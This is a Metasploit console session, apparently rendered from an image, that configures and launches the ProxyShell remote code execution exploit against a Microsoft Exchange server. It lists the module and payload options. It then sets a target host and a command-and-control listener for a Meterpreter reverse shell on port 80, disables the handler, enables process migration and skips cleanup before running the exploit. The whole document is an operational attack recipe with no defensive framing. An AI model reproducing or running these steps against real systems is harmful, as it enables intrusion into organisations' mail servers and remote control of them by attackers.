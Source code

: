 ```
Module options (exploit/windows/http/exchange_proxyshell_rce):  
  
  Name              Current Setting  Required  Description  
  ----              ---------------  --------  -----------  
  EMAIL                              no        A known email address for this organization  
  Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]  
  RHOSTS                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit  
  RPORT             443              yes       The target port (TCP)  
  SRVHOST           0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.  
  SRVPORT           8080             yes       The local port to listen on.  
  SSL               true             no        Negotiate SSL/TLS for outgoing connections  
  SSLCert                            no        Path to a custom SSL certificate (default is randomly generated)  
  URIPATH                            no        The URI to use for this exploit (default is random)  
  UseAlternatePath  false            yes       Use the IIS root dir as alternate path  
  VHOST                              no        HTTP server virtual host  
  
  
Payload options (windows/x64/meterpreter/reverse_tcp):  
  
  Name      Current Setting  Required  Description  
  ----      ---------------  --------  -----------  
  EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)  
  LHOST                      yes       The listen address (an interface may be specified)  
  LPORT     4444             yes       The listen port  
  
  
Exploit target:  
  
  Id  Name  
  --  ----  
  0   Windows Powershell  
  
  
msf6 exploit(windows/http/exchange_proxyshell_rce) > set rhosts <target_IP>
rhosts => <target_IP>
msf6 exploit(windows/http/exchange_proxyshell_rce) > set lhost <teamserver_C2>
lhost => <teamserver_C2>
msf6 exploit(windows/http/exchange_proxyshell_rce) > set lport 80
lport => 80
msf6 exploit(windows/http/exchange_proxyshell_rce) > set DisablePayloadHandler true
DisablePayloadHandler => true
msf6 exploit(windows/http/exchange_proxyshell_rce) > set PrependMigrate true
PrependMigrate => true
msf6 exploit(windows/http/exchange_proxyshell_rce) > set AllowNoCleanup true
AllowNoCleanup => true
msf6 exploit(windows/http/exchange_proxyshell_rce) > exploit
```
